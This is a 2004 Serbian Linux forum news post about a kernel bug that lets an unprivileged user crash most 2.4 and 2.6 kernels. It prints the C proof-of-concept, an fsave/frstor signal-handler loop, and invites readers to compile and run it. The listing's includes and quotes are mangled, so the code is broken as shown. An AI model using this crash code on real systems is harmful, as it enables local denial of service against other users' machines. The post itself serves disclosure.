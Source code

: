 ```yaml
---
author: tomaja
date: "2004-06-16T16:07:08Z"
excerpt: |
  Pronadjen je propust u kernelu koji omogucava da se Linux "zakuca". Radi na vecinii 2.4.x i 2.6.x kernela, a moguce je oboriti "pingvina" kao obican user...
  Patch bi vec trebalo da postoji.

  <a href="http://reviewed.homelinux.org/news/2004-06-11_kernel_crash/index.html.en">Za vise informacija</a>
guid: https://forum.linuxo.org/2004/06/16/bug-u-kernelu/
id: 457
tc-thumb-fld:
- a:2:{s:9:"_thumb_id";b:0;s:11:"_thumb_type";s:10:"attachment";}
title: Bug u kernelu
url: /bug-u-kernelu/
---
```

Pronadjen je propust u kernelu koji omogucava da se Linux &#8222;zakuca&#8220;. Radi na vecinii 2.4.x i 2.6.x kernela, a moguce je oboriti &#8222;pingvina&#8220; kao obican user&#8230;  
Patch bi vec trebalo da postoji.

[Za vise informacija](http://reviewed.homelinux.org/news/2004-06-11_kernel_crash/index.html.en)<!--break-->Ovo je &#8222;magican&#8220; C kod koji kuca kernel. Mozete iskompajlirati ovo gcc-om i videti sta se desava

#include  
#include  
#include 

static void Handler(int ignore)  
{  
char fpubuf[108];  
\_\_asm\_\_ \_\_volatile\_\_ (&#8222;fsave %0  
&#8220; : : &#8222;m&#8220;(fpubuf));  
write(2, &#8222;*&#8220;, 1);  
\_\_asm\_\_ \_\_volatile\_\_ (&#8222;frstor %0  
&#8220; : : &#8222;m&#8220;(fpubuf));  
}

int main(int argc, char *argv[])  
{  
struct itimerval spec;  
signal(SIGALRM, Handler);  
spec.it\_interval.tv\_sec=0;  
spec.it\_interval.tv\_usec=100;  
spec.it\_value.tv\_sec=0;  
spec.it\_value.tv\_usec=100;  
setitimer(ITIMER_REAL, &spec, NULL);  
while(1)  
write(1, &#8222;.&#8220;, 1);

return 0;  
}

[Креирај тему форума везану за овај текст](https://linuxo.org/nova-tema-na-forumu/?se_pid=457)